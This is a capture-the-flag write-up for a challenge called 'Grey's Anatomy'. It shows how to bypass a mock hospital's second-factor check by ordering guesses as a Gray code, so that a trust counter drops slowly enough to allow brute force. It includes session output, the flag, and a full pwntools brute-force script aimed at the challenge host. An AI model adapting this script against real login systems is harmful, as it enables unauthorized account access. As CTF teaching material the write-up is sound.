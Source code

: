 # Grey's Anatomy

Author: BenderBot

## Description

Can you compromise the medical records of Seattle Grace Hospital? We've obtained a set of credentials (mgrey/1515) but haven't figured out how to bypass the second factor authentication.

## Solution

tl;dr:

Use gray codes to only deduct the trust by 1 for each guess allowing for bruteforce.

---

Connecting and logging into the service requires the credintials provided in the description. Once logged in, the user will be prompted for a 3 digit code. Sending the 2 codes `123` and `124` result in a trust decrease of 3 as shown below.

```
Enter Code #1 (Trust: 1000):
123
Incorrect Code, please re-enter
Enter Code #1 (Trust: 1000):
124
Incorrect Code, please re-enter
Enter Code #1 (Trust: 997):
```

Looking into this deduction further it can be seen that it is the count of 1's in the binary result of `123 ^ 124` as shown below.

```
>>> bin(123 ^ 124)
'0b111'
```

Looking for a sequence of integers where adjacent numbers only differ by one bit results in finding the "gray code" sequence. The numbers in this sequence will only appear once and will only differ by 1 bit.

```
120 => 0b1111000
121 => 0b1111001
123 => 0b1111011
122 => 0b1111010
126 => 0b1111110
127 => 0b1111111
125 => 0b1111101
124 => 0b1111100
116 => 0b1110100
```

Submitting this sequence in order will result in the trust only decreasing by 1.

```
Enter Code #1 (Trust: 1000):
120
Incorrect Code, please re-enter
Enter Code #1 (Trust: 1000):
121
Incorrect Code, please re-enter
Enter Code #1 (Trust: 999):
123
Incorrect Code, please re-enter
Enter Code #1 (Trust: 998):
122
Incorrect Code, please re-enter
Enter Code #1 (Trust: 997):
126
Incorrect Code, please re-enter
Enter Code #1 (Trust: 996):
127
Incorrect Code, please re-enter
Enter Code #1 (Trust: 995):
125
Incorrect Code, please re-enter
Enter Code #1 (Trust: 994):
124
Incorrect Code, please re-enter
Enter Code #1 (Trust: 993):
116
Incorrect Code, please re-enter
Enter Code #1 (Trust: 992):
```

Scripting this process allows for a successful bruteforce.

```
[+] Opening connection to 0.cloud.chals.io on port 11444: Done
[*] Success: Code #1 found
[*] Success: Code #2 found
[*] Success: Code #3 found
[*] Success: Code #4 found
[*] Success: Code #5 found
[*] Success: Code #6 found
[*] Success: Code #7 found
[*] Success: Code #8 found
[*] Success: Code #9 found
[*] Success: Code #10 found
[*] Success: Code #11 found
[*] Success: Code #12 found
[*] Success: Code #13 found
[*] Success: Code #14 found
[*] Success: Code #15 found
[*] Switching to interactive mode
You have successfully authenticated!
FLAG: uscg{Gr4y_c0d3S}

[*] Got EOF while reading in interactive
```

---

```python
from pwn import *

p = remote('0.cloud.chals.io',11444)

def login():
    p.recvuntil(b'Username: ')
    p.sendline(b'mgrey')
    p.recvuntil(b'Password: ')
    p.sendline(b'1515')

def generate_codes():
    codes = []

    for i in range(1024):
        code = (i ^ (i >> 1))

        if code < 1000:
            codes.append(str(code).zfill(3).encode('utf-8'))
    
    return codes

def brute_code(codes):
    for code in codes:
        p.recvuntil(b'): \n')
        p.sendline(code)
        r = p.recvline()

        if b'Incorrect' not in r:
            return

def main():
    codes = generate_codes()
    login()

    passes = 0
    while passes < 15:
        brute_code(codes)
        passes += 1

        log.info(f"Success: Code #{passes} found")
    
    p.interactive()

main()
```

